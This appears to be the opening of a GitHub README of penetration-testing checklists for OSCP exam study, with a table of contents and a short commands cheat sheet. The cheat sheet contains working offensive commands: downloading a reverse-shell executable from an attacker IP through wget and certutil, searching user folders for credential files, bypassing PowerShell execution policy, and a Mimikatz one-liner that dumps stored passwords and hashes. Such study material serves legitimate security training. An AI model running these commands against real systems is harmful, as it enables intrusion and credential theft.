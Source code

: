 # Penetration Testing Checklists and Cheatsheets

This repository contains various checklists and cheatsheets to aid in penetration testing and preparing for the Offensive Security OSCP exam.

## Table of Contents

1. [Commands Cheat Sheet](#commands-cheat-sheet)
2. [General Checklists](#general-checklists)
   - [General Checklist Before Starting](#general-checklist-before-starting)
   - [General Checklist for Web Applications](#general-checklist-for-web-applications)
3. [Detailed Checklists](#detailed-checklists)
   - [Web Application Pre-Authentication Checklist](#web-application-pre-authentication-checklist)
   - [Web Application Directory Enumeration Checklist](#web-application-directory-enumeration-checklist)
   - [Web Application Login Checklist](#web-application-login-checklist)
   - [Finding Vulnerabilities and Exploits Checklist](#finding-vulnerabilities-and-exploits-checklist)
   - [Network Discovery and Port Scan Checklist](#network-discovery-and-port-scan-checklist)
   - [Active Directory General Checklist](#active-directory-general-checklist)
   - [Active Directory with Credentials Checklist](#active-directory-with-credentials-checklist)
   - [Active Directory without Credentials Checklist](#active-directory-without-credentials-checklist)
   - [Active Directory Kerberos Checklist](#active-directory-kerberos-checklist)
   - [Active Directory Lateral and Vertical Movement Checklist](#active-directory-lateral-and-vertical-movement-checklist)
   - [Privilege Escalation Windows Checklist](#privilege-escalation-windows-checklist)
   - [Privilege Escalation Linux Checklist](#privilege-escalation-linux-checklist)
   - [Ligolo-ng Checklist](#ligolo-ng-checklist)

---

## Commands Cheat Sheet

### Full TTY

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
export TERM=xterm-256color
alias ls='ls -arlht --color=auto'
stty columns 200 rows 200
```

### Windows PowerShell Commands
EXECUTION POLICY
```
Set-ExecutionPolicy Unrestricted -Scope CurrentUser
powershell -ExecutionPolicy Bypass -File .\PowerView.ps1
```
Show file like with Tree
```
Get-ChildItem -Path "./*" -Include "*" -Recurse -ErrorAction SilentlyContinue
```
```
Get-ChildItem -Path "C:\Users\*" -Include "flag.txt", "local.txt", "user.txt", "password.txt", "proof.txt", "credentials.txt" -Recurse -ErrorAction SilentlyContinue
```
Download
```
wget http://192.168.123.100:8000/rev4445.exe -OutFile rev4445.exe
```
```
certutil -split -urlcache -f http://192.168.123.100:8000/agent.exe agent.exe
```
Mimikatz Oneliner
```
.\mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "vault::cred" "exit"
```

